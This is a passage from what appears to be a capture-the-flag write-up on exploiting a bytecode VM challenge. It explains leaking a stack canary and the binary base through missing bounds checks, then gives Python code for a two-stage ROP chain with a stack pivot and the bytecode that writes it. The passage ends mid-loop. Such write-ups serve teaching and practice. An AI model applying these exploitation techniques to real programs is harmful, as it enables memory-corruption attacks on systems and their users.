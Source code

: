 Using the missing bounds checks mentioned above, we can first leak both the stack canary (of the userspace process) and the base address of the binary (which will be the same in the userspace and kernel processes).
After that, we overwrite the stack of the userspace process and execute a ROP chain. Because our previously sent bytecode has to write this chain, we are limited in size. Thus, the first ROP chain will just read some input (the second ROP chain) onto the data segment of the process and pivot the stack there.

```python
# gadgets encoded as tuples
# the first element is the gadget/address
# the second element indicates if the address is relative to the binary's base

# read(0, data + 0xa00, 0xe00)
(pop_rdi, True),
(0, False),
(pop_rsi, True),
(0x203000 + 0xa00, True),
(pop_rdx, True),
(0xe00, False),
(binary.plt.read, True),
# rsp = data + 0xa00
(pop_rsp, True),
(0x203000 + 0xa00, True),
```

We have to write this first ROP chain using the bytecode executed in the VM, using the `getstack` and `setstack` instructions as explained above. Because we have no way to leak the base address of the binary before sending the bytecode, we have to use the bytecode to adjust the addresses of our gadgets.

```python
# generate the bytecode for a given ROP chain
# abbreviations for opcode operands: r = register, s = stack, i = immediate

bc = ''
# set regs 1, 2, 3, 4 to ret addr (4 is not touched, because always zero)
bc += mov_rs(1, 52)
bc += mov_rs(2, 53)
bc += mov_rs(3, 54)
# adjust regs to base addr (subtract offset of return address)
bc += sub_ri(1, 0xe6e)
# debug to leak base addr
bc += p32(0xa)

idx = 52
for val, rel in rop:
    if rel:
        # set regs 5, 6, 7, 8 to val
        bc += mov_ri(5, val & 0xffff)
        bc += mov_ri(6, (val >> 16) & 0xffff)
        bc += mov_ri(7, (val >> 32) & 0xffff)
        bc += mov_ri(8, (val >> 48) & 0xffff)
        # add base addr
        bc += add_rr(5, 1)
        bc += add_rr(6, 2)
        bc += add_rr(7, 3)
        # write to stack
        bc += mov_sr(idx, 5)
        bc += mov_sr(idx + 1, 6)
        bc += mov_sr(idx + 2, 7)
        bc += mov_sr(idx + 3, 8)
    else:
        # write to stack
        bc += mov_si(idx, val & 0xffff)
```